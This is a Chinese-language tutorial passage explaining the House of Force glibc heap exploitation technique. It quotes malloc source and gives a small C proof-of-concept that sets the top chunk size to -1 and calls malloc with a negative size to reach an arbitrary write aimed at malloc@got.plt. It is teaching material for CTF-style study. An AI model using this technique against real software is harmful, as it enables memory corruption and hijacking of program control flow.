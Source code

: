 ```
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```
然而，如果可以篡改 size 为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size 域的漏洞。

```
(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
```
一般的做法是把 top chunk 的 size 改为-1，因为在进行比较时会把 size 转换成无符号数，因此 -1 也就是说unsigned long 中最大的数，所以无论如何都可以通过验证。

```
remainder      = chunk_at_offset(victim, nb);
av->top        = remainder;

/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))
```
之后这里会把 top 指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意值(write-anything-anywhere)。

**与此同时，我们需要注意的是，topchunk的size也会更新，其更新的方法如下**

```c
victim = av->top;
size   = chunksize(victim);
remainder_size = size - nb;
set_head(remainder, remainder_size | PREV_INUSE);
```

所以，如果我们想要下次在指定位置分配大小为 x 的 chunk，我们需要确保 remainder_size 不小于 x+ MINSIZE。

## 简单示例1
在学习完 HOF 的原理之后，我们这里通过一个示例来说明 HOF 的利用，这个例子的目标是通过HOF来篡改 `malloc@got.plt` 实现劫持程序流程

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

首先，我们分配一个 0x10 字节大小的块

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
之后把 top chunk 的 size 改为 0xffffffffffffffff，在真正的题目中，这一步可以通过堆溢出等漏洞来实现。
因为 -1 在补码中是以 0xffffffffffffffff 表示的，所以我们直接赋值 -1 就可以。
